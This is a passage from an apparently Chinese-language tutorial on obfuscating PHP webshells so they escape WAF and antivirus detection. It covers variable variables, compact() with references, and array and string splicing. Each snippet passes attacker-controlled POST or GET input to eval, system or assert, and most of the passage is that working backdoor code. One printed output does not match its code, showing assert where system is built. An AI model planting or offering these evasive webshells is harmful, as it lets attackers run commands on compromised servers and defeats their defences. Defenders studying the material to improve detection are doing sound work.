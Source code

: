 ### 5.1 简单可变变量

什么叫可变变量呢？看一下具体例子就明白了：

```php
$f = 'hello';    //变量名为 f，变量值为 Hello
$$f = 'AabyssZG';  //变量名为 Hello（也就是$f的值），值为 AabyssZG
echo $hello;     //输出 AabyssZG
```

那要怎么利用这个特性呢？如下：

```php
$f ='hello';
$$f = $_POST['aabyss'];
eval($hello);   //eval($_POST['aabyss']); 
```

### 5.2 数组 + 变量引用混淆

上文提到，可以通过 `compact` 创建一个包含变量名和它们的值的数组

那就可以用 `compact` 创建一个包含恶意函数和内容的数组，再引用出来拼接成语句即可

```php
$z = "system";                        //配合其他姿势，将 system 高危函数传给 z
$zhixin  = &$z;
$event = 'hahaha';

$result = compact("event", "zhixin"); //通过 compact 创建数组
$z = 'wahaha';                        //我将变量 z 进行修改为'wahaha'

$f = $result['zhixin'];
$f($_POST['aabyss']);                  //system($_POST['aabyss']); 
```

根据 5.1 学到的内容，可以发现传入数组后，函数内容被替换是不会影响数组中的内容的

于是先用变量 `zhixin` 来引用变量 `z` 然后通过 `compact` 创建为数组，接下来再将变量 `z` 附上新的内容 `wahaha` ，传统的 WAF 追踪变量的内容时候，就会让查杀引擎误以为数组中的值不是 `system` 而是 `wahaha` ，从而达到 WebShell 免杀

## 6# 数组绕过

先将高危函数部分存储在数组中，等到时机成熟后提取出来进行拼接

### 6.1 一维数组

```php
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

数组内容如下：

```php
Array ( [0] => Array ( [a] => assert($_GET['aabyss']) ) )
```
